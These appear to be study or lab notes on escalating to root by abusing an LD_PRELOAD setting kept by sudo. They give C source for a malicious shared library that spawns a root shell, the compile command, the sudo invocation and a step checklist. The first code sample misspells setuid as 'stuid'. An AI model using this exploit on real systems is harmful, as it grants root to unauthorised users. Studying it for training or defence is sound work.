 `LD_PRELOAD` is used to specify a shared library `.so` that is charged before all the other libraries when a program is executed.

The idea is to create a custom shared library that contains a malicious code (*for example `system()`*) and the he can use `LD_PRELOAD` to charge this library when a program with `sudo` privilege is executed.


<mark style="background: #FFF3A3A6;">We start from:</mark>
```bash
sudo -l
```
- ![[Pasted image 20250116154802.png]]
- we can see `LD_PRELOAD`


# Create a malicious library

We create a `.c` file:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD"); //to unset this variable (avoid anomalies)
	setgid(0); //set our group as root
	stuid(0); //set our user as root
	system("/bin/bash");
}
```

Now we need to compile this file:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
- `-fPIC` is used to make the code  independent from the position, it is used for shared libraries
- `-nostartfiles` means that we don't need a enter point in our code (like `main`) so the start files are not necessary



<mark style="background: #BBFABBA6;">At this point we can run any command or executable on which we have the `sudo` permission in this way:</mark>
```bash
sudo LD_PRELOAD=/FULL_PATH/shell.so COMMAND_OR_EXEC
```
- ![[Pasted image 20250116155738.png]]


## When we cannot do it?

1. When sudo ignores `LD_PRELOAD` (new updated system do that)
2. When the `LD_PRELOAD` is cleaned up form the program or the command is executed in a isolated env
3. When the system protects against it




# STEP
- [ ] In command prompt type: 
- `sudo -l`

- [ ] From the output, notice that the `LD_PRELOAD` environment variable is intact.

- [ ] Open a text editor and type:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
}
```

  

- [ ] Save the file as x.c

- [ ] In command prompt type:
- `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`

- [ ] In command prompt type:
- `sudo LD_PRELOAD=/tmp/x.so cmd`
- `cmd` must be one of the commands we dound with `sudo -l`
